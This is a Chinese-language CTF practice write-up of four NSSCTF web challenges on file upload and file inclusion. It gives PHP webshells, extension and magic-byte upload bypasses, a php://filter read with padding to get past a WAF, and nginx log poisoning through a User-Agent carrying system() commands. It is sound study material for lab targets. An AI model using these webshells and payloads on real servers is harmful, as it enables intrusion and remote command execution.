

# 2025-01-22题单

## 今日主题关键词

进阶，文件上传，文件包含，一句话木马，php伪协议

## 今日题目

- [ ] 10金币 [SWPUCTF 2021 新生赛]easyupload1.0 https://www.nssctf.cn/problem/388
- [ ] 20金币 [鹏城杯 2022]简单包含 https://www.nssctf.cn/problem/2422
- [ ] 30金币 [FSCTF 2023]是兄弟，就来传你の🐎！ https://www.nssctf.cn/problem/4561
- [ ] 20金币 [HNCTF 2022 WEEK2]easy_include https://www.nssctf.cn/problem/2948

### 题目清单：

看到关键词和题目的名称，就知道我们需要用一些webshell管理工具，比如[中国蚁剑](https://www.yuque.com/antswordproject/antsword/pgxa1h)，菜刀，[哥斯拉](https://github.com/BeichenDream/Godzilla)……

#### [SWPUCTF 2021 新生赛]easyupload1.0

进入靶机后发现一个简易的文件上传点


写一个简单的一句话木马然后传上去
```php
<?php @eval($_POST['cmd']); ?># 此处的cmd是之后连接用的密码
```


发现这里好像无法直接传，结合页面给的`upload 1.jpg`我们可以将这段php代码改为1.jpg然后抓包，然后改后缀为php绕过


然后发现文件上传成功，且很贴心的告诉了我们上传的位置


蚁剑上线！右键主界面添加数据url为：
```plaintext
url:http://node4.anna.nssctf.cn:28070/upload/1.php
password:cmd  # 刚才设置的
```

添加数据成功后右键打开虚拟终端后找到flag


所以flag是WLLMCTF{I_d0nt_w4nna_wak3up}

但是提交有问题，重开环境后依旧不对，我靠假flag？？？

用命令搜

```bash
grep -r "NSSCTF" / --text 2>/dev/null
```


所以flag是：

>NSSCTF{99ab3c73-aa26-4a81-b70f-cccc2a5d14ed}

（虽然但是这道题的flag被放在了apache的环境变量里，有点无语呢）

#### [鹏城杯 2022]简单包含

打开靶机后发现页面如下：


直接告诉了我们flag的位置，没有其他攻击点，是一个典型的文件包含的漏洞，尝试让flag.php被带出来，这里也说了需要用post请求

尝试直接在终端看能不能带出来
```bash
curl -X POST -d "flag=/var/www/html/flag.php" http://node4.anna.nssctf.cn:28809/
```


发现被waf挡住了，那就尝试用php的伪协议绕过，md，试了好多发现都绕不过去，同时刚刚打开靶机的页面中的代码显示不全，里面有没有可能有一些过滤规则，去试试能不能带出来index.php

```bash
curl -X POST -d "flag=php://filter/convert.base64-encode/resource=index.php" http://node4.anna.nssctf.cn:28809/
```

得到base64编码，解码后得到全部代码：

```php
<?php

$path = $_POST["flag"];

if (strlen(file_get_contents('php://input')) < 800 && preg_match('/flag/', $path)) {
    echo 'nssctf waf!';
} else {
    @include($path);
}
?>
```

##### 代码解释

`$path = $_POST["flag"];`

- 从HTTP POST请求中获取名为`flag`的参数值，并将其赋值给变量`$path`。

`if (strlen(file_get_contents('php://input')) < 800 && preg_match('/flag/', $path)) {     echo 'nssctf waf!'; }`

1. **`file_get_contents('php://input')`**:
    - 读取原始的HTTP请求体内容（即POST请求的原始数据）。
2. **`strlen()`**:
    - 判断请求体的长度是否小于800字节。
3. **`preg_match('/flag/', $path)`**:
    - 检查变量`$path`中是否包含字符串`flag`（大小写敏感）。
4. **条件判断**:
    - 如果请求体长度小于800字节**且**`$path`中包含字符串`flag`，则输出`nssctf waf!`（可能是某种WAF检测信息），程序不再执行后续代码。

`else {     @include($path); }`

1. **`@include($path)`**:
    - 如果上述条件未满足，则通过`include`函数动态加载`$path`指定的文件。
    - `@`用于抑制加载过程中可能出现的错误或警告。

然后我们就可以构造payload了

```bash
$payload = "q=" + "q"*800 + "&flag=php://filter/read=convert.base64-encode/resource=flag.php"
curl -X POST -d $payload http://node4.anna.nssctf.cn:28809/
```

得到base64编码解码后

>NSSCTF{05c145f5-8d51-4224-9dd9-55d7342f2e24}

#### [FSCTF 2023]是兄弟，就来传你の🐎

进入靶机，页面如下：


让我们上传一个php文件，如他所愿将之前写的一句话木马传上去，发现不被允许


那传后缀该成jpg的php，发现依旧不被允许，看来是后端有判断，尝试改后缀名去绕过[文件上传限制绕过技巧 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/179954.html)

>通过上传不受欢迎的php扩展来绕过黑名单。例如：pht，phpt，phtml，php3，php4，php5，php6

改成`pht`的时候发现回显有变化


证明绕过了其中一层防护，那给他改下文件头，GIF


可能还有一层防护？还得绕？


然后尝试去构造如下：

```php
GIF89A<?=`$GET[x]`?>
```


看来长度得小于等于15，问ai后将一句话木马改成

```php
GIF89A<?=`$x`?>
```

发现成功上传


但是这样在路径对的情况下连不到木马？？



按理说应该是可以连接到的，同时我也尝试了一些其他形式

```php
BM<?`$c`?>
BM<?=exec($c)?>
BM<?=`$a`?>
```
发现都链接不到，看wp去了

发现对方用的是

```php
BM<?=`tac/f*`;
```

然后直接读取这个文件即可


这个是用硬编码的方式直接读取文件中的内容，但我依旧搞不清楚为什么我蚁剑连接的时候返回为空，是被ban了？？？

之后跟选题的师哥聊了下，这题要是一句话木马的话确实会超15的限制，且我的之前的“一句话木马”没有指定请求方式，应该不算是一句话木马（学艺不精了，但是确实学到了知识），这题实际上应该用命令注入就可以，同时我询问了一下ai得到如下知识点的结果

一句话木马有两种主要类型：

1. 需要请求参数的动态木马（常见）：
```php
<?=`$x`?>           // 需要GET/POST参数
<?php eval($_POST[x]); ?>  // 需要POST参数
<?=$_GET[cmd]?>     // 需要GET参数
```


2. 直接执行的静态木马（像你刚才用的）：
```php
BM<?=`tac/f*`;      // 直接执行，不需要参数
BM<?=`ls`;?>        // 直接列目录
BM<?=`cat *`;?>     // 直接读取文件
```


区别：
- 动态木马更灵活，可以执行任意命令
- 静态木马更简单，直接执行固定命令
- 静态木马更容易绕过WAF（因为不需要参数传递）
- 动态木马需要工具（如蚁剑）来管理

所以在特定场景（如CTF）中，有时候直接执行的静态木马反而更有效！

#### [HNCTF 2022 WEEK2]easy_include

进入靶机，给出的部分代码如下：

```php
<?php  
//WEB手要懂得搜索  
  
if(isset($_GET['file'])){    $file = $_GET['file'];  
    if(preg_match("/php|flag|data|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=/i", $file)){  
        die("error");  
    }  
    include($file);  
}else{    highlight_file(__FILE__);  
}
```

发现这里可以直接进行目录遍历的操作：


他说web手要善于搜索，查看passwd里没有什么特殊信息，那么再去搜一些常见的文件

```txt
?file=.htaccess  
?file=robots.txt  
?file=index.html
```

都不存在，那么从技术栈分析入手


查看nginx有关的信息：

```txt
?file=/etc/nginx/nginx.conf
?file=/var/log/nginx/access.log
```

在日志文件里发现内容如下：

```txt
42.92.203.212 - - [22/Jan/2025:13:07:23 +0000] "GET / HTTP/1.1" 200 1534 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36 Edg/132.0.0.0" 42.92.203.212 - - [22/Jan/2025:13:07:24 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36 Edg/132.0.0.0" 42.92.203.212 - - [22/Jan/2025:13:13:02 +0000] "GET / HTTP/1.1" 200 1534 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:13:03 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:14:02 +0000] "GET /?file=compress.zlib://flag.php HTTP/1.1" 200 15 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:14:02 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=compress.zlib://flag.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:14:04 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:16:38 +0000] "GET /?file=/etc/passwd HTTP/1.1" 200 1346 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:16:38 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=/etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:18:15 +0000] "GET /?file=PHP://filter/convert.base64-encode/resource=flag.txt HTTP/1.1" 200 15 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:18:16 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=PHP://filter/convert.base64-encode/resource=flag.txt" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:18:29 +0000] "GET /?file=../../../../../etc/passwd HTTP/1.1" 200 1346 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:18:29 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:20:24 +0000] "GET /?file=../flag HTTP/1.1" 200 15 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:20:24 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=../flag" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:21:23 +0000] "GET /?file=index//php HTTP/1.1" 200 15 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:21:23 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=index//php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:21:25 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:21:26 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:22:23 +0000] "GET /?file=index.p/hp HTTP/1.1" 200 335 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:22:23 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=index.p/hp" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:23:07 +0000] "GET /?file=.?file=./ HTTP/1.1" 200 15 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:23:07 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=.?file=./" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:23:18 +0000] "GET /?file=.? HTTP/1.1" 200 319 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:23:18 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=.?" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:23:31 +0000] "GET /?file=.? HTTP/1.1" 200 319 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:23:31 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=.?" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:23:55 +0000] "GET /?file=robots.txt HTTP/1.1" 200 335 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:23:55 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=robots.txt" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:24:10 +0000] "GET /?file=.htaccess HTTP/1.1" 200 333 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:24:10 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=.htaccess" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:24:24 +0000] "GET /?file=index.html HTTP/1.1" 200 335 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:24:24 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=index.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:25:11 +0000] "GET / HTTP/1.1" 200 1534 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:25:11 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:25:16 +0000] "GET / HTTP/1.1" 200 1534 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36 Edg/132.0.0.0" 42.92.203.212 - - [22/Jan/2025:13:25:16 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36 Edg/132.0.0.0" 42.92.203.212 - - [22/Jan/2025:13:25:33 +0000] "GET /?file=/etc/nginx/nginx.conf HTTP/1.1" 200 934 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:25:33 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=/etc/nginx/nginx.conf" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:28:19 +0000] "GET /?file=/etc/nginx/sites-enabled/default HTTP/1.1" 200 15 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:28:19 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=/etc/nginx/sites-enabled/default" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:28:26 +0000] "GET /?file=/etc/nginx/sites-enabled/default HTTP/1.1" 200 15 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:28:26 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=/etc/nginx/sites-enabled/default" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36"
```

可以尝试用ua头投毒

在ua头里包裹

```txt
User-Agent: <?php system('ls -la'); ?>
```

然后访问?file=/var/log/nginx/access.log


发现可以成功执行，那么就进行命令注入

```txt
User-Agent: <?PhP system('ls -la /'); ?>
```

发现根目录下有一个文件叫ffflllaaaggg


使用命令

```txt
User-Agent: <?PhP system('cat /ffflllaaaggg'); ?>
```

得到flag


>NSSCTF{36c275ab-5a44-4b02-ad93-f5e22f1f3ed7}